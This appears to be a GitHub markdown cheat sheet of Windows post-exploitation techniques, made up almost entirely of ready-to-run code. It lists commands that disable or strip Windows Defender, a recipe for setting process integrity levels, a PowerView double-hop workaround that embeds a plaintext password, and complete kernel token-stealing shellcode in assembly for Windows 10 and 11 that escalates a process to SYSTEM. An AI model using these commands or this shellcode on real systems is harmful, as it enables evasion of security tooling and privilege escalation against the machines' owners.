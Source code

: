 # Windows

---

### Table of Contents
- [Run Powershell Elevated](#run-powershell-elevated)
- [Disable Windows Defender](#disable-windows-defender)
- [Creating low Integrity cmd](#creating-low-integrity-cmd)
- [Powershell Double Hop](#powershell-double-hop)
- [WinDbg FuFu](https://github.com/ForsakenSystems/.github/blob/main/content/lost-and-found/expl/windbg.md)
- [Token Stealing Shellcode](#token-stealing-shellcode)

---

## Run Powershell Elevated
- Sometime is might be needed to start an elevated powershell from commandline

```powershell
# Directly from cmd
powershell -Command "Start-Process PowerShell -Verb RunAs"

# Start powershell first and than elevate
powershell
Start-Process PowerShell -Verb RunAs
```

## Disable Windows Defender
- In general (not directly working after compromise, even with system privileges )

```powershell
# use "query" to check status
sc stop WinDefend
```

- ... use one or more of these

```powershell
# Remove without reboot
Dism /online /Disable-Feature /FeatureName:Windows-Defender /Remove /NoRestart /quiet

# ... with reboot
Uninstall-WindowsFeature -Name Windows-Defender

# Disable real-time-protection
Set-MpPreference -DisableRealtimeMonitoring $true

# Exclude path
Set-MpPreference -ExclusionPath PATH_HERE

# Remove signatures
& 'C:\Program Files\Windows Defender\MpCmdRun.exe' -removedefinitions

# Disable application guard
Disable-WindowsOptionalFeature -FeatureName "Windows-Defender-ApplicationGuard" -Online
```

## Creating low Integrity cmd
- Creating cmd.exe with low integrity (here: from common cmd.exe, which runs by default as medium integrity)
- Same works for switching to high integrity, but this has to be done with elevated privileges: high > medium > low

```powershell
copy C:\Windows\System32\cmd.exe cmd_low.exe

icacls cmd_low.exe /setintegritylevel low

icacls.exe cmd_low.exe
	cmd_low.exe NT AUTHORITY\SYSTEM:(F)
	               BUILTIN\Administrators:(F)
	               PC\useer:(F)
	               NT AUTHORITY\SYSTEM:(I)(F)
	               BUILTIN\Administrators:(I)(F)
	               PC\user:(I)(F)
	               Mandatory Label\Low Mandatory Level:(NW)
```

## Powershell Double Hop
- PowerShell remoting does not allow to pass credentials, which might lead to the well known (kerberos) double hop problem
- In some cases it can be solved by doing the following (here: with powerview example executed from winrm session)

```powershell
# create credential object
$creds = New-Object System.Management.Automation.PSCredential('DOM\user', (ConvertTo-SecureString 'securePw' -AsPlainText -Force))

# use it
Get-DomainUser -AllowDelegation -AdminCount -Properties distinguishedname -Credential $creds
```

## Token Stealing Shellcode
- Simple token stealing shellcode (`masm` compatible)
- Windows 10
```asm
_TEXT	SEGMENT
    shellcode PROC
        mov rax, QWORD PTR gs:[0188h]
        mov rax, QWORD PTR [rax + 0b8h]
        mov rbx, rax
        __LOOP:
            mov rbx, QWORD PTR [rbx + 0448h]
            sub rbx, 0448h
            mov rcx, QWORD PTR [rbx + 0440h]
            cmp rcx, 04h
            jnz __LOOP
        __ADJUST:
            mov rcx, QWORD PTR [rbx + 04b8h]
            and cl, 0f0h
            mov QWORD PTR [rax + 04b8h], rcx
        __CLEANUP:
            mov rax, QWORD PTR gs:[0188h]
            mov cx, WORD PTR [rax + 01e4h]
            inc cx
            mov WORD PTR [rax + 01e4h], cx
            mov rdx, QWORD PTR [rax + 090h]
            mov rcx, QWORD PTR [rdx + 0168h]
            mov r11, QWORD PTR [rdx + 0178h]
            mov rsp, QWORD PTR [rdx + 0180h]
            mov rbp, QWORD PTR [rdx + 0158h]
            xor eax, eax
            swapgs
            sysretq
    shellcode ENDP
_TEXT	ENDS
END
```

- Windows 11 (adjusted `_EPROCESS`)
```asm
_TEXT	SEGMENT
    shellcode PROC
            mov rax, QWORD PTR gs:[0188h]
            mov rax, QWORD PTR [rax + 0b8h]
            nop
            mov rbx, rax
            nop
        __LOOP:
            mov rbx, QWORD PTR [rbx + 01d8h]
            nop
            sub rbx, 01d8h
            nop
            mov rcx, QWORD PTR [rbx + 01d0h]
            nop
            cmp rcx, 04h
            nop
            jnz __LOOP
        __ADJUST:
            ;int 3
            mov rcx, QWORD PTR [rbx + 0248h]
            and cl, 0f0h
            mov QWORD PTR [rax + 0248h], rcx
        __CLEANUP:
            mov rax, QWORD PTR gs:[0188h]
            mov cx, WORD PTR [rax + 01e4h]
            inc cx
            mov WORD PTR [rax + 01e4h], cx
            mov rdx, QWORD PTR [rax + 090h]
            mov rcx, QWORD PTR [rdx + 0168h]
            mov r11, QWORD PTR [rdx + 0178h]
            mov rsp, QWORD PTR [rdx + 0180h]
            mov rbp, QWORD PTR [rdx + 0158h]
            nop
            xor eax, eax
            swapgs
            sysretq
    shellcode ENDP
_TEXT	ENDS
END
```
